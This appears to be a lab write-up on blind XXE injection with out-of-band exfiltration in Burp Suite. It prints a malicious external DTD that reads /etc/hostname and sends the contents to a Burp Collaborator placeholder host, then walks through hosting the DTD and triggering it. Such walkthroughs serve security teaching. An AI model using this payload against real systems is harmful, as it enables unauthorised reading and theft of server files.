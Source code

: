 First, we must host a DTD in our Burp collaborator so that when the application asks for our data, we give them the DTD and the application processes it.

The malicious DTD that will display the contents of the `/etc/hostname` file are the following:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> 
%eval; %exfil;
```

This basically saves into file the value of `/etc/hostname` and sends it in a request to our Burp Collaborator subdomain.

First, in Burp Suite exploit server we declare a malicious DTD pointing to our BurpSuite collaborator to exfiltrate the data:
![](imgs/blind_xxe_data_exfiltration.png)

Then, in the application we add a XXE pointing to this exploit server, so these orders are read and executed:
![](imgs/blind_xxe_data_exfiltration-1.png)

Sending this request will made the application visit the exploit server, read the DTD and process it.
In our Burp collaborator we can see the request performed with the exfiltrated data as part of the request. This means that the actions were executed:
![](imgs/blind_xxe_data_exfiltration-2.png)


